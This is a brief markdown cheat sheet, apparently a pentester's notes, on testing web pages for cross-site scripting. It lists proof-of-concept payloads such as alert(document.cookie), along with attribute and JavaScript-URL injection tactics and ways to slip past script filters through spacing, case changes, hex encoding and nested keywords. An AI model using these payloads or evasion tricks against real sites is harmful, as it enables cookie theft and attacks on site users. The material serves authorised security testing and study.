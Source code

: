 ```yaml
---
title:  "Cross Site Scripting (XSS)"
---
```

# Introduction
* Standard poc atttack string: `"><script>alert(document.cookie)</script>"`


# Strategy
* Test every entrypoint and find where these inputs (chosen so that they shouldn't be filtered) are displayed back to the user
* Sanitized/decoded/modified input can still be enough for exploitation

# Tactics
* Chack the page source code, not only the page rendered by the browser
* URL encode payload ?
* Remain within a tag using `onload` attribute: `" onload=alert()`
* If input returned inside a JS quoted string, ensure injected payload valid. Can comment the remainder using `//`
* Attribute containing an url: `javascript:alert()`
* Invalid image name: `#" onclick="javascript:alert()`

# Filters evading
## script filters
* Add space: `"><script >alert(document.cookie)</script >"`
* Change case: `"><ScRiPt>alert(document.cookie)</ScRiPt>"`
* Hex encoding: `"%3e%3cscript%3ealert(document.cookie)%3c/script%3e"`
* Double `script` keyword: `"><scr<script>ipt>alert(document.cookie)</scr</script>ipt>"`
